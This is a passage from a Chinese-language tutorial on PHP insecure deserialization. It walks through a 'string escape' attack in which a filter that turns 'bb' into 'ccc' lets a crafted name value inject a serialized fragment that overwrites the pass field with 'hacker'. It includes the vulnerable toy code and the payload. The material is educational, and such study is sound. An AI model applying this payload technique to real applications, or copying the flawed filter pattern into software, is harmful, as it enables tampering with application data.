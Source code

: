 ```php
// object(A)#2 (2) {
//   ["name"]=>
//   string(27) "";s:4:"pass";s:6:"hacker";}"
//   ["pass"]=>
//   string(6) "123456"
// }
```

首先我们要记得要满足特性一和特性二才能反序列化成功！！！

我们来看生成的字符串`O:1:"A":2:{s:4:"name";s:27:"";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:6:"123456";}`（这里需要理解生成的序列化字符串各个含义）

为什么现在生成的序列化字符串还能反序列化成功呢？因为我们的name的值现在认为我们有27个字符串，但是现在

![image-20240412104913481](16.%E4%B8%8D%E5%AE%89%E5%85%A8%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/image-20240412104913481.png)

(箭头处)是空的，所以name只能认为`";s:4:"pass";s:6:"hacker";}`当作了name的值，这个序列化字符串才能成功反序列化。所以我们的pass的值还是输出了123456.但是我们是想把`";s:4:"pass";s:6:"hacker";}`当作序列化字符串里面的一部分去执行,让pass变成hacker。

所以我们利用到了fileter函数，这个过滤函数看似想增加代码的安全性，实际上是增加了代码的危险性。

可以看到`";s:4:"pass";s:6:"hacker";}`是27个字符串，所以我们使name的值为

```
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:6:"hacker";},
```

来分析这27个bb，经过第一步序列化后为

```
O:1:"A":2:{s:4:"name";s:81:"bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:6:"123456";}
```

首先这里name的值的字符串数字为81，然后看到filter函数过滤后为

```
O:1:"A":2:{s:4:"name";s:81:"ccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:6:"123456";}
```

变成了81个c，刚好就是原来让name的字符串个数81正确，而且;}可以在hacker后面闭合（图中箭头所指的;}），这符合了前置知识里面的两个特性，可以成功执行，然后后面的";s:4:"pass";s:6:"123456";}就可以废弃了，这便实现了间接修改了pass的值

注：这里序列化后

```
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:6:"hacker";}
```

是name的值，81个值

经过filter函数过滤后，前54个c就相当于54个b，多出来的27个字符c，把27个字符`";s:4:"pass";s:6:"hacker";}`顶到后面了，到这里序列化语句就因为`;}`截止了，且name的字符串数81为81个c，符合特性二，可以反序列化成功。后面`";s:4:"pass";s:6:"123456";}`被顶出去废弃了

```php
<?php
function filter($str)
{
    return str_replace('bb', 'ccc', $str);
}
class A
{
        public $name = 'bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:6:"hacker";}';
        public $pass = '123456';
}
$AA = new A();
echo serialize($AA) . "\n";
```
